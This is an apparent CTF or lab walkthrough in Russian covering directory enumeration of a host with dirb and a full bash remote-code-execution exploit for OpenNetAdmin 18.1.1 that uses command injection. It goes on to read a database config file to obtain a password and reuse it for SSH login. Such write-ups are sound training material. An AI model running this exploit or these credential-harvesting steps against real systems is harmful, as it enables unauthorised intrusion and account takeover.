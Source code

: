 # 1) Поиск скрытых файлов и каталогов

Используем [dirb](https://github.com/v0re/dirb) для поиска файлов и каталогов на сервере:

`$ dirb http://9215fc5b9c9d.ngrok.io `
Обнаруживаем директорию /ona/,переходим по ней и видем меню OpenNetAdmin.
Изучив главную страницу замечаем сообщение:
```
You are NOT on the latest release version
Your version    = v18.1.1
```
Теперь мы знаем,что на сервере стоит OpenNetAdmin версии 18.1.1.
# 2) Используем уязвимость в OpenNetAdmin
Ищем уязвимости на OpenNetAdmin 18.1.1,находим bash скрипт,который даёт нам RCE:
```
#!/bin/bash
URL="http://9215fc5b9c9d.ngrok.io/ona/"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' 
done
```
Используя RCE полученное ранее узнаём,от какого пользователя мы выполняем команды
```
$ whoami
www-data
```
Данный пользователь не обладает root правами поэтому ищем способ повышенния своих привелегий.

# 3) Ищем дырочки
Кроме нас есть пользователь `Andrew`, в которого очень хотелось бы войти ( ͡• ͜ʖ ͡• )

На гите чекаем [ona](https://github.com/opennetadmin/ona) и находим приколы, а именно как чё устанавливается [ona install.php](https://github.com/opennetadmin/ona/blob/master/install/install.php)

Нас интересует строка
```
$dbconfwrite = @is_writable($onabase.'/www/local/config/') ? 'Yes' : '<font color="red">No</font>';
```
Отсюда делаем вывод, что надо порыться в `/opt/ona/www/local/config` через наш шелл
```
ls -l /opt/ona/www/local/config
```
Видим содержимое:
```
database_settings.inc.php
motd.txt.example
```
Чекаем пхпышечку с помощью `cat`
```
cat /opt/ona/www/local/config/database_settings.inc.php
```
Вывод:
```
$  cat ./local/config/database_settings.inc.php   
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'mH1XDvt7I,&6',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
Вау-вау-вау приколы стоили рофляночки, мы тут видим пароль `mH1XDvt7I,&6`

Первое, что мы пробуем --- войти в нашего Andrew с этим паролем по ssh
```
ssh andrew@9215fc5b9c9d.ngrok.io -p 17408
```
А в поле для пароля пихаем `mH1XDvt7I,&6`, и мы вошли в нашего друга))
